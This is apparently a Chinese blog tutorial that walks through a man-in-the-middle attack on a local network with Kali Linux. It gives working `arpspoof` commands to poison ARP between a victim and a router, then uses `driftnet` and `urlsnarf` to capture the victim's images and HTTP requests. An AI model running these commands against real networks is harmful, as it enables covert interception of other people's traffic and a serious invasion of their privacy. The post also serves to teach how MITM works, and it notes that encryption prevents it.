 ```yaml
---
layout: post
title: 使用Kali Linux执行中间人攻击(演示)
---
```


中间人攻击也叫Man-In-The-Middle-Attack。

我假设你已经知道中间人攻击的基本概念，引用一段wikipedia：

> 中间人攻击（Man-in-the-middle attack，缩写：MITM）是指攻击者与通讯的两端分别建立独立的联系，并交换其所收到的数据，使通讯的两端认为他们正在通过一个私密的连接与对方直接对话，但事实上整个会话都被攻击者完全控制。在中间人攻击中，攻击者可以拦截通讯双方的通话并插入新的内容。在许多情况下这是很简单的（例如，在一个未加密的Wi-Fi 无线接入点的接受范围内的中间人攻击者，可以将自己作为一个中间人插入这个网络）。
>
> 一个中间人攻击能成功的前提条件是攻击者能将自己伪装成每一个参与会话的终端，并且不被其他终端识破。中间人攻击是一个（缺乏）相互认证的攻击。大多数的加密协议都专门加入了一些特殊的认证方法以阻止中间人攻击。例如，SSL协议可以验证参与通讯的一方或双方使用的证书是否是由权威的受信任的数字证书认证机构颁发，并且能执行双向身份认证。

我画了一个简单的图示：

![kali Linux ip]({{ site.baseurl }}/images/2016/4/Screen Shot 2016-04-18 at 15.24.19.png)

* 受害者IP地址：192.168.0.106
* Kali Linux的IP地址：192.168.0.112，使用网络接口wlan0
* 路由器IP地址：192.168.0.1

使用到的工具：

* arpspoof
* driftnet
* urlsnarf

## 打开端口转发

确保Kali Linux打开端口转发，因为Kali Linux要起到中转的作用，开启方法：

* [Linux开启端口转发](http://blog.topspeedsnail.com/archives/4384)

## 拦截数据包

*受害者->路由器：*

{% highlight shell %}
# arpspoof -i wlan0 -t 192.168.0.106 192.168.0.1
{% endhighlight %}

> arpspoof redirects packets from a target host (or all hosts) on the LAN intended for another host on the LAN by forging ARP replies. This is an extremely effective way of sniffing traffic on a switch.

![Kali Linux 中间人攻击]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 15-35-30.png)

*路由器－>受害者：*

在打开一个终端，执行：

{% highlight shell %}
# arpspoof -i wlan0 -t 192.168.0.1 192.168.0.106
{% endhighlight %}

经过执行上面两个命令，现在受害者电脑接收和发送的所有数据包都经过Kali Linux，这时你就可以使用抓包分析工具了。

## driftnet：监控受害者电脑的图片流量

> Driftnet watches network traffic, and picks out and displays  JPEG  and GIF  images  for  display.  It  is  an horrific invasion of privacy and shouldn't be used by anyone anywhere.  It  has  been  described  as  `a graphical  tcpdump(8)',  `EtherPeg  for  Unix', and called all sorts of nasty names by people on Freshmeat. It is also possible to use driftnet to  capture  MPEG  audio  data  from  the network and play it through a player such as mpg123(1).

*It is an horrific invasion of privacy and shouldn't be used by anyone anywhere.*

打开新终端，执行：

{% highlight shell %}
# driftnet -i wlan0
{% endhighlight %}

当受害者电脑浏览带图片的网站（http）时，可以截获图像：

![Kali Linux 中间人攻击]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 16-05-16.png)

数据加密可以有效防止中间人攻击。

## urlsnarf：获得受害者的HTTP请求

> urlsnarf  outputs  all  requested URLs sniffed from HTTP traffic in CLF(Common Log Format, used by almost all web servers), suitable for  off‐line  post-processing with your favorite web log analysis tool (analog,wwwstat, etc.).

截获受害者浏览的http请求：

![Kali Linux 中间人攻击]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-18 16-15-11.png)

************

[更改Kali Linux MAC地址](http://blog.topspeedsnail.com/archives/4387)

[演示使用Metasploit入侵Android](http://topspeedsnail.com/kali-linux-metasploit-hack-android/)

[演示使用Metasploit入侵Windows](http://topspeedsnail.com/kali-linux-n-hack-windows-xp/)

[使用Hydra通过ssh破解密码](http://topspeedsnail.com/kydra-crack-ssh-and-avoid-attack/)